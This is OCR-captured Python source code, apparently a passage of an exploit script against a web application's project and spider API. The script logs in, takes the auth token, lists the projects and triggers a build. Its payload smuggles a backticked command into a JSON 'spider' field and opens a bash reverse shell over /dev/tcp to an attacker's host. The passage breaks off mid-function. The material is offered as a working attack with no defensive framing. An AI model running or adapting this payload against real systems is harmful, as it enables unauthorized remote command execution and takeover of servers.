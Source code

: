 ```
		self.target_port = target_port
		self.localhost = localhost
		self.localport = localport

	def exploitation(self):
		payload = """{"spider":"`/bin/bash -c 'bash -i >& /dev/tcp/""" + localhost + """/""" + localport + """ 0>&1'`"}"""

		#Login to the app (getting auth token)
		url = "http://" + target_ip + ":" + target_port
		r = requests.Session()
		print("[*] Resolving URL...")
		r1 = r.get(url)
		time.sleep(3)
		print("[*] Logging in to application...")
		r2 = r.post(url + "/api/user/auth", json={"username":login,"password":password}, allow_redirects=True)
		time.sleep(3)
		if (r2.status_code == 200):
			print('[*] Login successful! Proceeding...')
		else:
			print('[*] Something went wrong!')
			quit()

		#Create a header out of auth token (yep, it's bad as it looks)
		dict = json.loads(r2.text)
		temp_token = 'Token '
		temp_token2 = json.dumps(dict['token']).strip('"')
		auth_token = {}
		auth_token['Authorization'] = temp_token + temp_token2

		#Get the project list
		print("[*] Getting the project list")
		r3 = r.get(url + "/api/project/index", headers=auth_token, allow_redirects=True)
		time.sleep(3)

		if (r3.status_code != 200):
			print("[!] Something went wrong! Maybe the token is corrupted?")
			quit();

		#Parse the project name for a request (yep, it's worse than earlier)
		dict = r3.text # [{'name': 'test'}]
		dict2 = json.dumps(dict)
		dict3 = json.loads(dict2)
		dict3 = json.loads(dict3)
		name = dict3[0]['name']
		print("[*] Found project: " + name)

		#use the id to check the project
		print("[*] Getting the ID of the project to build the URL")
		r4 = r.get(url + "/api/project/" + name + "/build", headers=auth_token, allow_redirects=True)
		time.sleep(3)
		if (r4.status_code != 200):
			print("[*] Something went wrong! I can't reach the found project!")
			quit();

		#format the json to dict
		dict = r4.text
		dict2 = json.dumps(dict)
		dict3 = json.loads(dict2)
		dict3 = json.loads(dict3)
		id = dict3['id']
```